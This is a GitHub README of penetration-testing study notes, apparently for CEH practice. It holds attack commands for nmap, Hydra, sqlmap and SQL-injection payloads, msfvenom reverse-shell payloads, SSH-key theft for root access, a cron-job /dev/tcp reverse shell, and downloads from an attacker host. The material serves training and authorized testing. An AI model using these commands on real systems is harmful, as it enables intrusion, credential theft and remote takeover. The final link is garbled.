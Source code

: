 # OffSec-Notes
Repository created for keeping notes on various topics, vulnerabilities and tools useful in penetration testing. 

# Reconnaissance

### Some Common Ports

 Port     | Service  | Protocol          |
| --------|:--------:| -----------------:|
| 21      | FTP      |    TCP, UDP, SCTP |
| 22      | SSH      |    TCP, UDP, SCTP |
| 137     | NetBIOS  |    TCP, UDP       |
| 161     | SNMP     |    UDP            |
| 445     | SMB      |    TCP, UDP       |
| 3389    | RDP      |    TCP            |

<details>
<summary>nmap</summary>

```sudo nmap -sn 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn).

```sudo nmap -sn --exclude [IP] 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn), exclude a specific url (--exclude).

```nmap -sT [IP]``` - Use TCP connect scan (-sT) if not root/sudo user. Only option for non sudoers.

```sudo nmap [IP] ``` -  By default nmap uses TCP SYN scan (-sS), but this should be used only from root/sudo user.

```sudo nmap -sV -O -v [IP] -p- -oN [Filename.txt]``` - Default SYN scan with enabled version detection (-sV) and OS detection (-O). Additional flags - verbose mode (-v), all ports (-p-), output to .txt file (-oN). 

```sudo nmap -A [IP]``` - Default SYN scan with enabled OS detection, version detection, script scanning, and traceroute (-A).

```sudo nmap --script http-methods [IP]``` - Default SYN scan with specific script (--script). As an example script *http-methods* (enumerates allowed HTTP methods) is used.

```sudo nmap -sU [IP]``` - Performs UDP scan (-sU).

```-n``` - Tells Nmap to never do reverse DNS resolution on the active IP addresses it finds. Since DNS can be slow even with Nmap's built-in parallel stub resolver, this option reduces scanning times.

Useful nmap scripts:

 Script   | Service  | Description |
|:--------|:--------|:-----------|
| smb-os-discovery.nse    | SMB (445)  | Enumerate OS, domain name,etc. |
| smb-enum-users.nse      | SMB (445)  | Used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing. |
| smb-enum-shares.nse     | SMB (445)  | SMB shares. |
| nbstat.nse     | NetBIOS (137)  | NetBIOS enumeration, use -sU for UDP. |

</details>

# Brute-force
<details>
<summary>Hydra</summary>

```sudo hydra -l <username> -P <wordlist> [URL] ssh``` - Basic Hydra command for brute-forcing ssh password. Works similarly with other protocols such as FTP.

```sudo hydra -l <username> -P <wordlist> [base_URL] http-post-form "<path>:<login_credentials>:<invalid_response>"``` - Hydra command for HTTP POST form. Path need to be specified seperately from base URL.

</details>

# SQL Injection

For SQL injection focused task either perform the injection manually or use sqlmap tool. Check fields using single quote or encoded single quote.

```blah' or 1=1 --``` - Basic login bypass payload. Adjust for specific case.

```blah';exec master..xp_cmdshell 'ping [URL] -l 65000 -t'; --``` - Example command to pop shell through sql injection.

<details>
<summary>sqlmap</summary>

```sudo sqlmap -u “[URL]” --cookie="[cookie_value]" --dbs``` - Initial command to enumerate databases (--dbs). Add cookie values if necessary (--cookie).

To get the cookie for this login -> inspect element -> console -> type ```document.cookie```

```sudo sqlmap -u “[URL]” -D [database_name] --tables``` - Enumerate tables in the specified database (--tables).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --columns``` - Enumerate columns in the specified table (--columns).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --dump``` - Dump all data from table (--dump).

```sudo sqlmap -u “[URL]” --os-shell``` - Pop shell through sqlmap (--os-shell).

```sudo sqlmap -r [filename] --batch -v 5 | tee [output]``` - Use sqlmap with request from file (-r), for example, captured by Burp. This command also uses standard behaviour (--batch) and saves the output to a file (| tee)


</details>

# Metasploit

### Handy Metasploit modules

 Module    | Service  | Description       |
| --------|:--------:|:-----------------|
| smb_login     | SMB      |    Brute-force SMB credentials. |
| smb_version   | SMB      |    Scan for SMB version.        |
| smb_enumshares| SMB      |    Enumerates SMB shares.       |
| post/windows/gather/smart_hashdump  | Windows(any)    | ```run post/windows/gather/smart_hashdump``` - Use this when in meterpreter shell and want to search for Windows hashes.        | 
| post/linux/gather/hashdump   | Linux(any)    | ```run post/linux/gather/hashdump``` - Use this when in meterpreter shell and want to search for Linux hashes.        |
| exploit/multi/handler| Any      |    Use this to catch shell.       |

<details>
<summary>msfvenom</summary>

### Msfvenom Payload Examples

```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf``` - Linux.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe``` - Windows.

```msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php``` - PHP.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp``` - ASP.

 ```msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py``` - Python.

Remember to set correct payload in the exploit/multi/handler as well!
 
Refer to "Transfering Files" section in order to see details how to upload these shells.

</details>

# Android hacking
<details>
<summary>ADB</summary>

```adb devices``` - Check for devices connected to the host.

```adb shell``` - Enter phone terminal.

```adb shell pm path [package_name]``` - Check path for given app package.

```adb shell find / -name *maps*``` - Find stuff with adb.

Package names can be viewed via Google Play store. For example: https://play.google.com/store/apps/details?id=com.swapcard.apps.android.blackhat&hl=en_IN

Package name in this case is "com.swapcard.apps.android.backhat"

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/31e2fce7-9d1e-4b85-9ae3-49e13fc81c48)

</details>

# Cryptography
<details>
<summary>hashcat</summary>
Useful sites for online hashes:
  
- https://hashes.com
- https://hashes.com/en/tools/hash_identifier

Can also use hashid to identify hash type:

```hashid -m [hash]```
- m to show corresponding hashcat mode.

Standard hashcat command:

```hashcat -a 0 -m [hash_mode_id] [hash] [wordlist]``` 
- Straight attack mode suited for wordlist (-a 0).
- Specified hash type (-m).

If hashcat does not work consider using John the Ripper.

------

</details>

<details>
<summary>John the Ripper</summary>

```john --format=nt --wordlist=<path-to-wordlist> <hash>```
- Set hash format (--format=).
- Set wordlist (--wordlist=).

For hash formats check:
https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

------

</details>

</details>

<details>
<summary>Other Tools</summary>

**Hashmyfiles** - For calculating and comparing hashes of files. Can be used to compare hashes and find tempered data.

**CryptoForge** - For easy encrypting and decrypting using password.

**BcTextEncodes** - For encoding and decoding text in file (.hex). 

**Cryptool** - For encryption/decryption of hex data - by manipulating the key length. This tool can perform brute-force analysis.

**Veracrypt** - For hiding and encrypting disk partitions. Can also be used to open encrypted disk partition (mount). Outer and inner partitions has separate passwords.

</details>

# Privilege Escallation

```nc -nlvp [PORT]``` - Start netcat listener to catch shell.

```find / -perm -u=s -type f 2>/dev/null``` - Search for SUID files.

Look for sbin.

```ltrace [prog]``` - Can be used to check what the program is doing.

<details>
<summary>Scenario 1</summary>

**Horizontal**

```sudo -l``` - Check other other user sudo permissions.

```sudo -u user2 /bin/bash``` - If, for example, user2 has sudo privileges to /bin/bash, you can spin the bash using this command.

**Vertical**

1. ```ls -la``` - Check all directories. Look for .ssh directory.
2. Navigate to .ssh folder.
3. Copy content of id_rsa file.
4. Create file id_rsa on attacker machine and paste the content.
5. ```chmod 600 id_rsa``` - give rights to file.
6. ```ssh root@[IP] -i id_rsa -p [PORT]``` - check if you can login as root.

*IF you have access to authorized_keys file there is also a way to copy into the file your own keys. This way around you can enter as root user with your own private key.

------

</details>

<details>
<summary>Scenario 2</summary>

```cat /etc/crontab``` - To find cronjobs.

.sh file example.
```#!/bin/bash```
```bash -i >& /dev/tcp/[IP]/[PORT] 0>&1```

Remember to ```chomd +x``` !

</details>


</details>

# Malware Threats

<details>
<summary>RAT's</summary>

You need to target the right IP and port number (try default first).
You need to use the right tool from the available.

Example tools to establish a connection to a RAT:
- njRAT
- MoSucker
- ProRat
- Theef
- HTTP RAT

</details>

<details>
<summary>Malware Analysis Tools</summary>

https://www.hybrid-analysis.com/ - Online tool.

**DIE (Detect it Easy)** - Scan and analyze .elf files.

**PE Explorer** - Find entry point address.

</details>

# Traffic Sniffing
<details>
<summary>Wireshark</summary>

```tcp.flags.syn==1``` - Filter apply example, this one searches for SYN packets.

Follow streams to check for interesting data. Rightclick on packet -> Follow -> TCP Stream (can be other protocols).

To check for files in the conversations use export option. File -> Export -> HTTP (can be other protocol) -> sort by content-type to see if there are any .txt files for example.

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/b0417cc6-a20b-450a-bce0-4588031e210e)


### View capture file properties to look for comments.
![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/39f702e0-c213-457b-9695-cb336a4488b9)


</details>

# Transfering Files

```python3 -m http.server 9000``` - Set up HTTP server on attacjubg machine.

```wget http://[ATTACKING_IP]:9000/[filename]``` - Use on victim machine to download.

OR use SCP, SFTP or FTP protocols.

```scp /path/to/local/file.txt <user>@$IP:$PORT:/path/to/remote/``` - SCP file transfer example.

# Wireless Attacks
<details>
<summary>aircrack-ng</summary>
Used to crack .cap files. WEP, WPA/WPA2 wireless networks.

```aircrack-ng [filename].cap```

- Works for WEP.
- If the capture file has sufficient packets aircrack will be able to crack it.

```aircrack-ng [filename].cap -w [file]``` 

- Works for WPA.
- Dictionary added (-w).

</details>

# Useful Links

### Notes:

https://github.com/infovault-Ytube/CEH-Practical-Notes

https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://github.com/TheCyberpunker/CEH-Practical-Notes

https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052

https://ceh-practical.cavementech.com/

https://infosecwriteups.com/privileges-escalation-techniques-basic-to-advanced-in-linux-973cb62cbe8d

### Tool Documentation:

https://github.com/horsicq/Detect-It-Easy

### Videos

https://www.youtube.com/watch?v=VuIYNxazbN0&list=PLZEA2EJpqSWfouVNPkl37AWEVCj6A2mdz&index=9

https://www.youtube.com/watch?v=4JzLg7wjHm8&list=PL-Fa25Pu8l6wV1Se-bPY-Onc6t_mUTZHW

https://www.youtube.com/watch?v=`x31mz'|F='op!'!jmA|
